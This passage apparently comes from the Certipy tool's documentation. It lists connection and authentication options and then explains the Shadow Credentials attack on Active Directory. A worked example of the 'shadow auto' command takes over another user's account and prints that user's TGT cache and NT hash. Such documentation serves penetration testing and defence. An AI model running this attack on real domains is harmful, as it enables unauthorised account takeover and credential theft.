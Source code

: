 ```
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it
  -target dns/ip address
                        DNS Name or IP Address of the target machine. Required for Kerberos or SSPI authentication
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -timeout seconds      Timeout for connections

authentication options:
  -u username@domain, -username username@domain
                        Username. Format: username@domain
  -p password, -password password
                        Password
  -hashes [LMHASH:]NTHASH
                        NTLM hash, format is [LMHASH:]NTHASH
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -sspi                 Use Windows Integrated Authentication (SSPI)
  -aes hex key          AES key to use for Kerberos Authentication (128 or 256 bits)
  -no-pass              Don't ask for password (useful for -k and -sspi)
```

In short, the Shadow Credentials attack is performed by adding a new "Key Credential" to the target account. The Key Credential can then be used with the PKINIT Kerberos extension for authentication.

Certipy's `shadow` command has an `auto` action, which will add a new Key Credential to the target account, authenticate with the Key Credential to retrieve the NT hash and a TGT for the target, and finally restore the old Key Credential attribute.

```bash
$ certipy shadow auto -username John@corp.local -p Passw0rd -account Jane
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'Jane'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '00f38738-288e-4c85-479a-a6313ab46fe6'
[*] Adding Key Credential with device ID '00f38738-288e-4c85-479a-a6313ab46fe6' to the Key Credentials for 'Jane'
[*] Successfully added Key Credential with device ID '00f38738-288e-4c85-479a-a6313ab46fe6' to the Key Credentials for 'Jane'
[*] Authenticating as 'Jane' with the certificate
[*] Using principal: jane@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'jane.ccache'
[*] Trying to retrieve NT hash for 'jane'
[*] Restoring the old Key Credentials for 'Jane'
[*] Successfully restored the old Key Credentials for 'Jane'
[*] NT hash for 'Jane': a87f3a337d73085c45f9416be5787d86
```
